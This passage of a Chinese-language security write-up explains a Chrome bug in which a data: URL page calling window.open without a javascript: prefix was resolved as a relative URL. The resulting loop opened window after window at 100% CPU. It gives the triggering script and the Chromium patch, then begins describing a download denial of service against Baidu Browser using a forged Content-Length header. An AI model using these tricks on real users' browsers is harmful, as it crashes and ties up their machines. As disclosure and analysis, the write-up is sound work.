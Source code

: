 我的代码是：

```
<script>
   var k=1;
   window.open("data:text/html, <scri"+"pt>var k=1111;window.open('window.open(\\\"about:blank\\\")')</scrip"+"t>"+"</scrip"+"t>","lll");
</script>

```

理应最不济也是按照这个方式弹出窗口，最多只有4个：

```
window1: data:text/html, <script>...</script>
window2: javascript:window.open('window.open(\"about:blank\")')
window3: javascript:window.open("about:blank")
window4: about:blank

```

可是没想到从第二个窗口开始，它就无情的弹出了：

```
window1: data:text/html, <script>...</script>
window2: data:text/html, <script>...</window.open("about:blank")
window3: data:text/html, <script>...</window.open("about:blank")
....

```

正是如此，由于阴差阳错我忘了加`javascript:`，但是不巧Chrome也错把`window.open()`这个当作了相对路径，更不巧的是它居然搜索到了第二个正斜线/处，并把它后面的内容替换成了`window.open`。

这也就意味着，从window2开始，他就开始了一直执行同一段代码的不归路，难怪会一直占100%cpu呢。

官方的修复是（REV 168294）：

```
   M http://src.chromium.org/viewvc/chrome/trunk/src/url/url_canon_relative.cc?r1=254565&r2=254564&pathrev=254565
   M http://src.chromium.org/viewvc/chrome/trunk/src/url/url_canon_unittest.cc?r1=254565&r2=254564&pathrev=254565

url_cannon_relative.cc:  +
124      if (!is_base_hierarchical) {
125                  // Don't allow relative URLs if the base scheme doesn't support it.
126                  return false;
127                }

```

### 0x03b 百度浏览器下载dos （特殊情况考虑不完善）

HTTP头中，Content-Length可以反映这个请求的实体大小`[2]`，正是如此，下载的时候，下载器可以拿它当个参考，但是HTTP头是我们可以随便定义的，如果我们在服务器上做一个假的下载文件，并且把它的大小指定的非常大，甚至超出硬盘能受得了的大小，或者超出存储下载文件有多大的那个变量的上限会如何呢？
